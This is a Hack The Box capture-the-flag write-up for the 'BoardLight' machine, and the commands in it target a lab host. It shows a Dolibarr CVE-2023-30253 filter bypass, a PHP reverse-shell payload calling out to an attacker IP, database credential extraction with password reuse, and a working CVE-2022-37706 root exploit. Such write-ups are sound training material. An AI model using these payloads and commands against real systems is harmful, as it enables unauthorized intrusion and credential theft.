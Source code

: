 ```yaml
---
layout: post
title: BoardLight
difficulty: Easy
description: BoardLight is an easy difficulty Linux machine that features a `Dolibarr` instance vulnerable to CVE-2023-30253.
categories: [writeups]
tags: [HTB, SUID, CVE-2023-30253, CVE-2022-37706]
image:
  path: /assets/boardlight/BoardLight.png
---
```


## **Summary**

Default credentials were used to access Dolibarr CRM which was vulnerable to [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253) giving us inital access, then exploiting [CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) in enlightenment_sys to gain a root shell. 

## **Enumeration**

### **nmap**

Initial port scan revealed two open ports, 80 and 22.

```
$ nmap 10.129.4.177 -sV -Pn -T4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-26 17:06 +01
...
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

### **http - port 80**

The main domain did not have much, just a static web page.

![](/assets/boardlight/00.png)

We found a domain name down the page and added the fowllowing line to `/etc/hosts`

```
10.129.4.177    board.htb
```

![](/assets/boardlight/10.png)

After having a domain name, we tried finding any virtual hosts, and we got one `crm`

```
$ ffuf -u http://board.htb/ -H 'Host: FUZZ.board.htb' \
-w ~/wordlists/dns/bitquark-subdomains-top100000.txt -fs 15949
...
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 68ms]
```

We updated our `/etc/hosts` to include the recently found virtual host

```
10.129.4.177    crm.board.htb board.htb
```

We browsed to `http://crm.board.htb/` and found that it is running `Dolibarr 17.0.0`

> Dolibarr ERP & CRM is a modular software (we only activate the functions that we want) of business management which adapts to the size of your company (SME, Large companies, Frelancers or associations) [source](https://wiki.dolibarr.org/index.php?title=What_Dolibarr_Does).
{: .prompt-info}

![](/assets/boardlight/01.png)

We were able to login using the default login credentials : `admin:admin`

![](/assets/boardlight/02.png)

This version of Dolibarr was vulnerable to [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253) which is an authenticated remote code execution via an uppercase manipulation in `<?PHP` tag.

> Read more about the exploit in this [blog post](https://www.swascan.com/security-advisory-dolibarr-17-0-0/).
{: .prompt-info}

To exploit it, we went to `Websites`, clicked the `+` button, then filled `Name of the website` and hit `create`.

![](/assets/boardlight/03.png)

Once the website is created, we hit the `+` button next to `Page:` to create a new page, selected the first choice, inserted a title, then clicked on `Create` at the bottom of the page.

![](/assets/boardlight/04.png)

After creating the page, we went to `Edit HTML Source`.

![](/assets/boardlight/05.png)

As a proof on concept we added this line: `<?pHp phpinfo(); ?>`.

![](/assets/boardlight/06.png)

> `<?php` tag is forbidden, to bypass it we used uppercase letters, `<?pHp`.
{: .prompt-info}

After hitting `Save`, we could see that `phpinfo()` has been executed.

![](/assets/boardlight/07.png)

## **Initial access**

To get a reverse shell, all we had to do is setup a listener.

```
nc -lnvp 9000
```

That edit the page again and add the following line.

```php
<?pHp system("bash -c 'bash -i >& /dev/tcp/10.10.14.223/9000 0>&1'"); ?>
```

After getting a connection back, we were able to extract the database credentials.

```
$ cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
...
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
...
```

And as a result extract user credentials from the database, even though it was of no use to us.
```
$ mysql -u 'dolibarrowner' -p'serverfun2$2023!!' -D dolibarr -e 'select login,pass_crypted from llx_user;'
+----------+--------------------------------------------------------------+
| login    | pass_crypted                                                 |
+----------+--------------------------------------------------------------+
| dolibarr | $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm |
| admin    | $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96 |
+----------+--------------------------------------------------------------+
```

We used the databse passowrd (`serverfun2$2023!!`) to login as larissa.
```
$ su larissa
Password: serverfun2$2023!!
```

## **Privilege escalation**

We found a binary (`enlightenment_sys`) with SUID bit set, wich means it will be run with the privilege of the owner which is root.

```
larissa@boardlight:~$ 2>/dev/null find / -type f -perm -u=s
...
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
...
```

> [enlightenment](https://www.enlightenment.org/about) is a window manager for linux.
>
> `enlightenment_sys` is a component of the Enlightenment window manager for Linux, which is responsible for managing graphical user interfaces. It has a known security vulnerability ([CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)) that allows local users to gain elevated privileges due to improper handling of certain pathnames.
{: .prompt-info}

To get a root shell we executed the following commands.

```
$ mkdir -p /tmp/net
$ mkdir -p "/dev/../tmp/;/tmp/exploit"
$ echo "/bin/sh" > /tmp/exploit
$ chmod a+x /tmp/exploit
$ /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount \
-o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), \
"/dev/../tmp/;/tmp/exploit" /tmp///net
```
![](/assets/boardlight/09.png)
